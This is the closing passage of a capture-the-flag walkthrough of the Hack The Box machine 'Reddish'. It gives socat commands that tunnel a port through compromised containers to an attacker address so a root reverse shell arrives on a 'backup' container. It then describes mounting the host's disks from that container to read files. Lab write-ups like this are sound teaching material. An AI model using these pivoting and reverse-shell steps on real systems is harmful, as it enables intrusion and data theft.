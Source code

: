 Now we cat set up the tunnels.

_On `www`, use the following command_

```
$ /tmp/socat tcp-listen:5555,fork tcp:172.20.0.3:5555 &
```

_On `nodered`, use the following command_

```
# socat tcp-listen:5555,fork tcp:10.10.13.52:5555 &
```

Now, let's copy the files over.

<a class="image-popup">
![9ca34772.png](/assets/images/posts/reddish-htb-walkthrough/9ca34772.png)
</a>

A minute later, you'll receive a `root` shell on `backup`.

<a class="image-popup">
![1c0006c2.png](/assets/images/posts/reddish-htb-walkthrough/1c0006c2.png)
</a>

### Flags

The `backup` container as the name suggests, stores the data on the host. Because of that, we can `mount` the host's partitions within the container. And since we are `root` on this container, we can read any files from the `mount`ed volumes.

<a class="image-popup">
![99ec97fa.png](/assets/images/posts/reddish-htb-walkthrough/99ec97fa.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/147
[2]: https://www.hackthebox.eu/home/users/profile/12438
[3]: https://www.hackthebox.eu/
